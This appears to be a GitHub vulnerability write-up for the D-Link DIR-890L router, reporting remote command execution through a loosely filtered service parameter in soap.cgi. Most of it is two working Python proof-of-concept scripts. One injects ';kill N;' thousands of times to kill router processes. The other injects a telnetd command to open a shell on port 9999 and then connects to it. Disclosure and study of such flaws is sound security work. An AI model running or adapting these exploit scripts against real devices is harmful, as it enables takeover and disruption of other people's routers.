

# RCE of DIR-890l

## Version: 
DIR890LA1_FW120b01

## Test Environment: 
Ubunutu 22.02, FirmAE

## Analysis:
Because of loose filter in `soap.cgi` causes this RCE

## Tips:
I don't have an actual firmware, so I used FirmAE. However, it has some bug causing `system()` can't execve most of command. So in my environment this RCE can only execute some commands like `kill`, `sleep`...

## POC:
### In my environment(DDoS)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    print(request)
    print(con.recv(4000))

if __name__=="__main__":
    http_logging()
    i=5000
    while(i>0):
        httpSUB("192.168.0.1", 49152, ';kill {0};'.format(i))
        i=i-1
        if i%1000==0:
            print(i)

```

### Actual firmware(get shell)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

if __name__=="__main__":
    http_logging()
    httpSUB("192.168.0.1", 49152, ';telnetd -p 9999 &;;')
```

## Result:
